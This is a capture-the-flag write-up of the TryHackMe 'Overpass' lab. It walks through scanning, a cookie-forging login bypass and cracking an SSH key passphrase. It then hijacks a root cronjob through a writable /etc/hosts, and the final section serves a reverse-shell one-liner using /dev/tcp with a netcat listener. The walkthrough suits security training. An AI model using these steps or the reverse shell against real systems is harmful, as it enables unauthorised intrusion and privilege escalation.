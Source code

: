 ```yaml
---
layout: post
title: "Overpass"
date: 2022-10-21
categories: [Tryhackme, Easy-THM]
tags: [rustscan, overpass, gobuster, private-key, ssh2john, JTR, ROT47, /etc/crontab]
image: ../../assets/img/posts/overpass.png 

---
```


## Description

What happens when some broke CompSci students make a password manager?

|**Room**|[Overpass](https://tryhackme.com/room/overpass)|
|:---:|:---:|
|**OS**|Linux|
|**Difficulty**|Easy|
|**Creator**|[NinjaJc01](https://tryhackme.com/p/NinjaJc01)|

---

Starting off with deploying the machine, and quickly scanning the open ports with rustscan,

```bash
rustscan -a 10.10.121.165 --ulimit 5000
```

![image](https://user-images.githubusercontent.com/67465230/186625321-30833064-362b-4384-bb9f-e9edb35deb39.png)

We got the open ports and now we can scan them in detail using nmap,

```bash
nmap -sC -sV -p22,80 10.10.121.165 -oN nmap.log
```

![image](https://user-images.githubusercontent.com/67465230/186664375-888f8de4-3ece-4249-b048-8341a3b5fcaf.png)

Result scan shows that port 22 is running with SSH service and port 80 is running Golang Server. 

Let's start by visiting http://$IP,

![image](https://user-images.githubusercontent.com/67465230/186664534-197b2a49-45c3-4749-b659-a62efeebe98f.png)

We are welcomed by a webpage having nice description about overpass. 

So now I decided to check its source code and I do found something and I spent few time on it to quickly check what is it about but I can't actually found anything regarding this comment,

![image](https://user-images.githubusercontent.com/67465230/186664700-9ed0e7df-b811-4769-86a9-99c835eaa073.png)

So, let's move forward with fuzzing directories,

```bash
gobuster dir -u http://$IP/ -w /usr/share/SecLists/Discovery/Web-Content/common.txt -q 2>/dev/null -o gobuster.log
```

![image](https://user-images.githubusercontent.com/67465230/186664852-b340941d-915e-4172-8a72-32bbef08ae63.png)

after fuzzing directories, I found a hidden directory named **admin**.

So I quickly head over to the path http://$IP/admin,

![image](https://user-images.githubusercontent.com/67465230/186664961-0e057855-05c7-4baa-b124-b55bf9fdbd41.png)

and got a login panel for administrator user to login into application. I tried to brute force this login page, tried default creds but nothing works in the end. 

So I decided to check it's source code and there I found a login.js file which seems interesting,

![image](https://user-images.githubusercontent.com/67465230/186665021-d013f87c-30a2-44b7-bb7e-fb4ade9f9477.png)

After looking at the code of the login.js file, I can say that the login page is handled by a specific JS code. When creds are entered, it sends these creds to a specific endpoints to get a response,

```js
async function login() {
    const usernameBox = document.querySelector("#username");
    const passwordBox = document.querySelector("#password");
    const loginStatus = document.querySelector("#loginStatus");
    loginStatus.textContent = ""
    const creds = { username: usernameBox.value, password: passwordBox.value }
    const response = await postData("/api/login", creds)
    const statusOrCookie = await response.text()
    if (statusOrCookie === "Incorrect credentials") {
        loginStatus.textContent = "Incorrect Credentials"
        passwordBox.value=""
    } else {
        Cookies.set("SessionToken",statusOrCookie)
        window.location = "/admin"
    }
}
```

Looking at the function **login**, there’s a simple if else statement. Basically, it’s checking if the response is equal to “Incorrect Credentials”. If true, it will display a message saying “Incorrect Credentials”. Otherwise, it will set a cookie named “SessionToken” to the returned statusOrCookie and redirect the user to /admin. 

>Read more about session management and cookies here: [Owasp Cheatsheet](https://cheatsheetseries.owasp.org/cheatsheets/Session_Management_Cheat_Sheet.html#cookies)

Since this is only checking for a cookie named SessionToken let’s just create a cookie and give it any value,

```
Name: SessionToken
Path: /
```

![image](https://user-images.githubusercontent.com/67465230/186665062-92ca2845-fc68-42c1-8873-7cc0aea97912.png)

After refreshing the page, we got entry to admin panel. We can clearly see that this is a private RSA key of Paradox user,

![image](https://user-images.githubusercontent.com/67465230/186665152-bec4dde7-54ee-4780-ac5d-ff8337d3eb83.png)

But we can't just use this key that easily to login. We first need to convert this key into crack-able hash so that we can crack this hash using JTR, 

```bash
/usr/share/john/ssh2john.py keys > hash
john hash
```

![image](https://user-images.githubusercontent.com/67465230/186665653-d9d80b05-2691-414c-a0fc-03b2dadffeeb.png)

after few seconds, I got the passphrase for this private key.

So let's quickly change the permissions of the key. I tried to login as Paradox user using private key but can't login. So tried to login as james user and got authenticated,

```bash
chmod 600 keys
ssh -i keys james@10.10.44.7
```

![image](https://user-images.githubusercontent.com/67465230/186665714-9add6cb3-d87e-49a4-ab8a-802c4468e689.png)

Enumerating james user home directory and we got user flag,

![image](https://user-images.githubusercontent.com/67465230/186665768-0aa4ff9c-69ef-4159-a6e3-caf14f1e0e10.png)

There is also a hidden file named .overpass, so checking it's content,

```bash
cat .overpass
```

![image](https://user-images.githubusercontent.com/67465230/186665800-31e4b6b0-bbda-4138-a6de-f131a8cd64bf.png)

I got a gibberish text which when I decoded from ROT47 to original text, got some key-value pair text but didn't knew what to do with it,

![image](https://user-images.githubusercontent.com/67465230/186665856-b64b042c-c152-4a1d-a114-f94b32012919.png)

Next, I read the contents of todo.txt and there I saw that the note mentions an automated build script which probably is set-up as a cronjob,

```bash
cat todo.txt
```

![image](https://user-images.githubusercontent.com/67465230/186665903-183d1504-7e46-4bba-8b68-a93ef9a9dec4.png)

I checked the /etc/crontab file,

```bash
cat /etc/crontab
```

![image](https://user-images.githubusercontent.com/67465230/186665953-349c66ae-64b0-4ac8-8196-abe4e4ff564f.png)

We see that the cronjob fetches the buildscript from the website and pipes it to bash. To exploit this we’d need to somehow redirect the domain to our IP.

Here's the code of **buildscript.sh** we downloaded from /downloads folder from website,

![image](https://user-images.githubusercontent.com/67465230/186665993-903998fc-6ec7-4c01-af25-0a5539687d44.png)

Luckily, when running linpeas we find out that /etc/hosts is world-writable,

![image](https://user-images.githubusercontent.com/67465230/186666043-1d4e3482-989e-4ada-9e75-61c163ca9019.png)

With this we can replace the localhost IP with our IP and serve a malicious bash script,

![image](https://user-images.githubusercontent.com/67465230/186666102-afbde69e-6d34-46c2-b866-7aaae7de29b2.png)

Let's change the ip of `overpass.thm` to tun0 IP,

![image](https://user-images.githubusercontent.com/67465230/186666174-cb5b3d62-ddf3-428a-bc1a-17fafc079578.png)
 
Back on our host machine

```bash
mkdir -p downloads/src/
echo "bash -c 'exec bash -i &>/dev/tcp/10.9.11.12/4444 <&1'" > downloads/src/buildscript.sh
sudo python3 -m http.server 80

# on another session
nc -nvlp 4444
id
```

![image](https://user-images.githubusercontent.com/67465230/186666257-38378e8b-c72d-4b99-8941-5f9503251522.png)

Now we can get our root user flag.